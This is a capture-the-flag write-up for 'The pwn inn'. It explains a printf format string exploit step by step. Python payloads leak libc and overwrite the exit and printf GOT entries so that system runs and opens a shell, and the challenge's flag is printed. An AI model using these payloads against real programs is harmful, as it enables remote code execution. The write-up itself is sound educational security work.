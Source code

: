 # The pwn inn
#### Description
As we know that crypto is a hot potato right now, we wanted to welcome you to a safe place, The Pwn Inn. We've had many famous faces stay in our Inn, with gets() and printf() rating us 5 stars. We've decided to start making an app, and wanted you guys to be our beta testers! Welcome!
#### Author
Tango
#### Points and solves
477 points, 58 solves.

In this challenge we are given a binary which calls a function ```vuln```
```c
void vuln(void)
{
  long in_FS_OFFSET;
  char local_118 [264];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  fgets(local_118,0x100,stdin);
  printf("Welcome ");
  printf(local_118);
  exit(1);
}
```

We simply have a classic printf format string attack.
We are not given a libc version, so we have to leak libc version aswell.


## 1. Patching ```exit(1)```
We'll, ```vuln``` doesn't return, instead it calls ```exit(1)```, and in order to be able to leak, and ret2libc we need to have atleast two rounds of format string attack.
So we have to patch ```exit(1)``` to something else, in this case it is easy and convenient to patch it with ```vuln```.
This way, every time vuln finishes, it calls itself and we have endless rounds of format string attacks that we can perform.

```python
p.sendlineafter("? \n", b"%45$08p%46$08p%4199080d%10$nAAAA" + p64(elf.sym.got["exit"]) + 8*b"B")
```

Let's breakdown the payload step by step.
#### a. ```%45$08p%46$08p```
Simply translating the format string:
"Print the 45th argument to printf as a pointer padded to size of 8 chars."
The same follows for the 46th argument.
Now, we ask ourselves what does the 45th and 46th arguments hold? Two halves of the return address of main.
Main returns to __libc_start_main, and by leaking the return address of the main function we can narrow down the libc version of the remote to a few libc versions.

### b. ```%4199080d```
Yo ```hex(4199080) = 4012A8```, This means that printf will print its' next argument as a decimal, padded by ```4199080``` digits.
Notice that the ```vuln``` is at: ```0x4012c4```.
We already printed 16 characters by leaking the 45th and 46th arguments which totals to ```0x4012c``` printed characters.
This allows us to easily overwrite ```exit``` to ```vuln``` using the next step.

### c. ```%10$nAAAA + p64(elf.sym.got["exit"]) + 8*b"B"```
Remind ourselves of the ```%n``` format modifier of printf, which writes the total characters written so far to the value to the pointed by the next argument of printf.
Or if we specifiy ```%idx$n```, it writes that value to the value pointed by the ```idx```th argument to printf.
So, with a bit of debugging, it's possible to align the GOT entry for ```exit``` to be the ```10th``` argument to printf. (Using the ```A```s to push the address around the stack, and ```B```s simply for visibility.)
And by doing that we write ```vuln = 0x4012c4``` to the GOT of ```exit```.

## 2. Getting shell
So, now, every time vuln exits, it actually calls itself and after sending the first paylod we enter a second round of format string attack.
Moreover, we leaked a libc address from ```__libc_start_main``` and we can narrow down the libc version and calculate the offset of ```system```.
Now the plan is, to overwrite the GOT entry of  ```printf``` to ```system```.
However, the problem is that the address of system is so large, that in if we want to print that many characters the challenge will time us out.
We must split and write in three small batches. (Also possible in two batches)

Lets visualize the address of ```system```.
For example lets say that ```system``` is at ```0xAAAABBBBCCCCDDDD``` in our case ```0xAAAA = 0x0000```.
So, let's assume that ```BBBB``` > ```CCCC``` > ```DDDD```. 
We can write ```0xDDDD``` characters using printf, and immediatly after that overwrite the first 2 bytes of ```GOT.printf``` with ```DDDD```
After that, we can print ```0xCCCC-0xDDDD``` bytes, which totals to ```0xCCCC``` characters printed overall and overwrite bytes 3 and 4 of ```GOT.printf```.
Similiarly we can continue to ```BBBB```.
However that assumption doesnt always hold, because libc addresses are randomized, so we have to get lucky for our assumption to hold.
But sorting ```[BBBB, CCCC, DDDD]``` and constructing the format string from the lowest entry to the highest will make the attack successfull every time.

The final format string attack:
```python
l = [third1, third2, third3]
l.sort()
payload = b"%" + ("%05d"%l[0]).encode("ascii") + b"d%11$hn" +\
	b"%" + ("%05d"%(l[1]-l[0])).encode("ascii") + b"d%12$hn" +\
	b"%" + ("%05d"%(l[2]-(l[1]))).encode("ascii") + b"d%13$hn" +1*b"\x00"
for i in range(0,3):
    if l[i] == third1:
        payload += p64(elf.sym.got["printf"]+4)
    if l[i] == third2:
        payload += p64(elf.sym.got["printf"]+2)
    if l[i] == third3:
        payload += p64(elf.sym.got["printf"])
```

Seems complex, but if you have been following the explanation it's straight forward.
```l``` is the list ```[BBBB, CCCC, DDDD]```, we sort it.
Now we can construct the payload and print 3 batches of characters in order from lowest to highest.
Each batch will print the correct amount of characters and afterwards will perform ```d%11$hn``` (or ```%12$n``` or ```%13$n```). Which will write a short to the appropriate address. (because we use ```hn``` instead of ```n```).

Last part of the payload that is constructed in the for-loop simply matches the correct offset of GOT.printf address with the right batch.
For example, if assume for the sake of explanation ```third1 < third2 < third3```. 
The first batch of the payload will print ```third1``` characters and will write the result to the 11th argument. Therefore the 11th argument must correspond to the offset that is appropriate for writing the first third.
The same follows for ```third2``` and ```third3```.
In parallel to the example: ```0xAAAABBBBCCCCDDDD```, ```AAAA``` belongs in ```GOT.printf + 6```, ```BBBB```` belongs in ```GOT.printf + 4``` and so on.

We send this line, and then ```exit``` returns us to ```vuln```, write ```/bin/sh``` and this parameter will be passed to printf which is now actually ```system``` :)


### How to narrow libc version
A very nice website at [libc database search](https://libc.nullbyte.cat/) will narrow down the libc version based on known offsets.

#### Flag
```flag{GOTt4_b3_OVERWRITEing_th0s3_symb0ls_742837423}```
